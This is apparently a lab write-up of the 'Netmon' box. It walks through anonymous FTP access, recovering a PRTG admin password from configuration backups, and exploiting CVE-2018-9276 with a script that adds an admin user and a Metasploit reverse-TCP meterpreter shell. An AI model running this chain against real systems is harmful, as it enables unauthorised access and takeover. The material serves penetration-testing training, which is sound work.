

# ENUMERATION

Nmap: 
```shell
└─$ sudo nmap -sC -sV -Pn 10.129.96.142 -oN nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 21:27 CEST
Nmap scan report for 10.129.96.142
Host is up (0.032s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-09-09T19:27:50
|_  start_date: 2022-09-09T19:26:28
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.23 seconds
zsh: segmentation fault  sudo nmap -sC -sV -Pn 10.129.96.142 -oN nmap.txt

```

try to list smb shares without credentials:
```shell
└─$ smbclient -N -L 10.129.43.165
session setup failed: NT_STATUS_ACCESS_DENIED
```

Let's take a look on this anonymous FTP:

```shell
└─$ ftp 10.129.96.142
Connected to 10.129.96.142.
220 Microsoft FTP Service
Name (10.129.96.142:darthv): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49735|)
150 Opening ASCII mode data connection.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49738|)
150 Opening ASCII mode data connection.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Administrator
550 Access is denied. 
ftp> cd Public
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49748|)
150 Opening ASCII mode data connection.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
09-09-22  03:27PM                   34 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> bin
200 Type set to I.
ftp> mget user.txt
mget user.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||49754|)
150 Opening BINARY mode data connection.
100% |***********************************************************************************************************************************************************************************************|    34        1.05 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (1.04 KiB/s)
ftp> exit
221 Goodbye.
                                                                                                                                                                                                                                            
└─$ cat user.txt  
8e25682870bb77ae73ee7fa02f3ebd35
                                                                                                                                                                                                                                            
```

uoooohhh!

Search on ftp folders, very important run ls -la to show hiden folders instead of dir:

```shell
└──╼ $ftp 10.129.43.221
Connected to 10.129.43.221.
220 Microsoft FTP Service
Name (10.129.43.221:darthv): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
09-10-22  03:06PM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd ProgramData
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Application Data
12-15-21  10:40AM       <DIR>          Corefig
02-03-19  08:05AM       <DIR>          Desktop
02-03-19  08:05AM       <DIR>          Documents
02-03-19  12:15AM       <DIR>          Licenses
11-20-16  10:36PM       <DIR>          Microsoft
02-03-19  12:18AM       <DIR>          Paessler
02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
07-16-16  09:18AM       <DIR>          SoftwareDistribution
02-03-19  08:05AM       <DIR>          Start Menu
02-03-19  12:15AM       <DIR>          TEMP
02-03-19  08:05AM       <DIR>          Templates
11-20-16  10:19PM       <DIR>          USOPrivate
11-20-16  10:19PM       <DIR>          USOShared
02-25-19  10:56PM       <DIR>          VMware
226 Transfer complete.
ftp> cd Paessler
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
09-10-22  03:48PM       <DIR>          PRTG Network Monitor
226 Transfer complete.
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
12-15-21  08:23AM       <DIR>          Configuration Auto-Backups
09-10-22  03:06PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
09-10-22  03:06PM       <DIR>          Logs (Web Server)
09-10-22  03:07PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
09-10-22  03:48PM              1679225 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> bin
200 Type set to I.
ftp> mget "PRTG Configuration.dat"
mget PRTG Configuration.dat? y
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.57 secs (2.0020 MB/s)
ftp> mget "PRTG Configuration.old"
mget PRTG Configuration.old? yes
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.48 secs (2.3409 MB/s)
ftp> mget "PRTG Configuration.old.bak"
mget PRTG Configuration.old.bak? yes
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 1.88 secs (600.0062 kB/s)
ftp> quit
221 Goodbye.
```

Lets find prtgadmin user on some of this files:
```shell
└──╼ $grep prtgadmin -b1 PRTG\ Configuration.old.bak 
10178-            <dbpassword>
10204:	      <!-- User: prtgadmin -->
10237-	      PrTg@dmin2018
--
1150986-                <login>
1151011:                  prtgadmin
1151040-                </login>
┌─[darthv@parrot]─[~/git/badorius/vulnhub/Netmon/enumeration]

```

We try PrTg@admin2018 as password but doesn't work, since we have 3 files, .old.bak from 2018 and the others from 2019, let's try to login with prtgadmin:PrTg@admin2019:


Check PRTG Vuln:

```shell
└──╼ $searchsploit PRTG
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                                                                        | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' Stored XSS                                                                                                       | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)                                                                                    | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                                                                                                     | java/webapps/34108.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
└──╼ $./prtg-exploit.sh

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 

```

Get cookie information (Q inspect element after login, go to storage Cookies:




# FootHold

First try with prtg-exploit.sh script, get information from cookie editor addon:
```shell
└─$ ./prtg-exploit.sh -u http://http://10.129.96.142 -c "_ga=GA1.4.1813050781.1662751751; _gid=GA1.4.275445248.1662899444; OCTOPUS1813713946=e0IyOTcxNjU2LTU3MEItNDZBRC1CQURELTY0NDQ0NTQxOURFRX0%3D _gat=1"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st!' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 


```

MSF option:

```shell
[msf](Jobs:0 Agents:0) >> search PRTG

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/prtg_authenticated_rce

[msf](Jobs:0 Agents:0) >> use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set LHOST 10.10.14.28
LHOST => 10.10.14.28
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set RHOST 10.129.43.52
RHOST => 10.129.43.52
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set ADMIN_PASSWORD PrTg@dmin2019
ADMIN_PASSWORD => PrTg@dmin2019


[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> run

[*] Started reverse TCP handler on 10.10.14.28:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175686 bytes) to 10.129.43.52
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.129.43.52:50180) at 2022-09-11 12:49:58 +0200

(Meterpreter 1)(C:\Windows\system32) > cd C:\
 > cd Users
[-] stdapi_fs_chdir: Operation failed: The system cannot find the file specified.
(Meterpreter 1)(C:\Windows\system32) > cd ..
(Meterpreter 1)(C:\Windows) > cd ..
(Meterpreter 1)(C:\) > dir
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2016-11-21 03:46:10 +0100  $RECYCLE.BIN
100666/rw-rw-rw-  1024    fil   2019-02-03 05:18:08 +0100  .rnd
100666/rw-rw-rw-  1       fil   2016-07-16 15:10:17 +0200  BOOTNXT
040777/rwxrwxrwx  0       dir   2019-02-03 13:05:38 +0100  Documents and Settings
040777/rwxrwxrwx  0       dir   2016-07-16 15:18:03 +0200  PerfLogs
040555/r-xr-xr-x  4096    dir   2019-02-26 03:56:41 +0100  Program Files
040777/rwxrwxrwx  4096    dir   2019-02-03 05:28:57 +0100  Program Files (x86)
040777/rwxrwxrwx  4096    dir   2021-12-15 15:40:04 +0100  ProgramData
040777/rwxrwxrwx  0       dir   2019-02-03 13:05:39 +0100  Recovery
040777/rwxrwxrwx  0       dir   2019-02-03 13:04:49 +0100  System Volume Information
040555/r-xr-xr-x  4096    dir   2019-02-03 13:08:34 +0100  Users
040777/rwxrwxrwx  16384   dir   2019-02-26 04:49:57 +0100  Windows
100444/r--r--r--  389408  fil   2016-11-21 02:59:07 +0100  bootmgr
040777/rwxrwxrwx  0       dir   2019-02-26 03:15:12 +0100  inetpub
000000/---------  0       fif   1970-01-01 01:00:00 +0100  pagefile.sys

(Meterpreter 1)(C:\) > cd Users
(Meterpreter 1)(C:\Users) > dir
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  8192  dir   2019-02-26 04:58:46 +0100  Administrator
040777/rwxrwxrwx  0     dir   2016-07-16 15:28:00 +0200  All Users
040555/r-xr-xr-x  8192  dir   2019-02-03 13:05:38 +0100  Default
040777/rwxrwxrwx  0     dir   2016-07-16 15:28:00 +0200  Default User
040555/r-xr-xr-x  4096  dir   2019-02-03 05:35:49 +0100  Public
100666/rw-rw-rw-  174   fil   2016-07-16 15:16:27 +0200  desktop.ini

(Meterpreter 1)(C:\Users) > cd Administrator
(Meterpreter 1)(C:\Users\Administrator) > dir
Listing: C:\Users\Administrator
===============================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  AppData
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  Application Data
040555/r-xr-xr-x  0       dir   2019-02-03 13:08:38 +0100  Contacts
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  Cookies
040555/r-xr-xr-x  0       dir   2019-02-03 05:35:23 +0100  Desktop
040555/r-xr-xr-x  4096    dir   2019-02-03 13:08:39 +0100  Documents
040555/r-xr-xr-x  0       dir   2019-02-03 13:08:39 +0100  Downloads
040555/r-xr-xr-x  0       dir   2019-02-03 13:08:38 +0100  Favorites
040555/r-xr-xr-x  0       dir   2019-02-03 13:08:39 +0100  Links
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  Local Settings
040555/r-xr-xr-x  0       dir   2019-02-03 13:08:39 +0100  Music
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  My Documents
100666/rw-rw-rw-  262144  fil   2022-09-11 12:35:25 +0200  NTUSER.DAT
100666/rw-rw-rw-  65536   fil   2019-02-03 13:08:35 +0100  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TM.blf
100666/rw-rw-rw-  524288  fil   2019-02-03 13:08:35 +0100  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288  fil   2019-02-03 13:08:35 +0100  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TMContainer00000000000000000002.regtrans-ms
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  NetHood
040555/r-xr-xr-x  0       dir   2019-02-03 13:08:38 +0100  Pictures
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  PrintHood
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  Recent
040555/r-xr-xr-x  0       dir   2019-02-03 13:08:39 +0100  Saved Games
040555/r-xr-xr-x  0       dir   2019-02-03 13:08:39 +0100  Searches
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  SendTo
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  Start Menu
040777/rwxrwxrwx  0       dir   2019-02-03 13:08:34 +0100  Templates
040555/r-xr-xr-x  0       dir   2019-02-26 04:06:13 +0100  Videos
100666/rw-rw-rw-  98304   fil   2019-02-03 13:08:34 +0100  ntuser.dat.LOG1
100666/rw-rw-rw-  114688  fil   2019-02-03 13:08:34 +0100  ntuser.dat.LOG2
100666/rw-rw-rw-  20      fil   2019-02-03 13:08:34 +0100  ntuser.ini

(Meterpreter 1)(C:\Users\Administrator) > cd Desktop
(Meterpreter 1)(C:\Users\Administrator\Desktop) > dir
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-02-03 13:08:39 +0100  desktop.ini
100444/r--r--r--  34    fil   2022-09-11 12:13:30 +0200  root.txt

(Meterpreter 1)(C:\Users\Administrator\Desktop) > cat root.txt
9c75297d5d7531895b6776dbf4917ddd
(Meterpreter 1)(C:\Users\Administrator\Desktop) > 
```
